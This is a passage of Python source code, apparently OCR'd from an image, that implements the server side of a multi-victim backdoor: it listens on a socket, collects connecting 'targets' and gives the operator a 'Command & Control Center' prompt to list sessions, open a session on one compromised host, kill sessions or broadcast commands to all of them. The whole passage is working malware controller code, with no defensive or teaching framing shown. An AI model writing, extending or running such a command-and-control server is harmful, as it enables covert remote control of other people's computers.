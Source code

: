 ```
            targets.append(target)
            ips.append(ip)
            print(termcolor.colored(str(ip) + ' has connected!', 'green'))
        except:
            pass


targets = []
ips = []
stop_flag = False
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('192.168.1.9', 5555))
sock.listen(5)
t1 = threading.Thread(target=accept_connections)
t1.start()
print(termcolor.colored('[+] Waiting For The Incoming Connections ...', 'green'))

while True:
    command = input('[**] Command & Control Center: ')
    if command == 'targets':
        counter = 0
        for ip in ips:
            print('Session ' + str(counter) + ' --- ' + str(ip))
            counter += 1
    elif command == 'clear':
        os.system('clear')
    elif command[:7] == 'session':
        try:
            num = int(command[8:])
            tarnum = targets[num]
            tarip = ips[num]
            target_communication(tarnum, tarip)
        except:
            print('[-] No Session Under That ID Number')
    elif command == 'exit':
        for target in targets:
            reliable_send(target, 'quit')
            target.close()
        sock.close()
        stop_flag = True
        t1.join()
        break
    elif command[:4] == 'kill':
        targ = targets[int(command[5:])]
        ip = ips[int(command[5:])]
        reliable_send(targ, 'quit')
        targ.close()
        targets.remove(targ)
        ips.remove(ip)
    elif command[:7] == 'sendall':
        x = len(targets)
        print(x)
        i = 0
        try:
            while i < x:
                tarnumber = targets[i]
                print(tarnumber)
                reliable_send(tarnumber, command)
                i += 1
        except:
            print('Failed')
    else:
        print(termcolor.colored('[!!] Command Doesnt Exist', 'red'))
```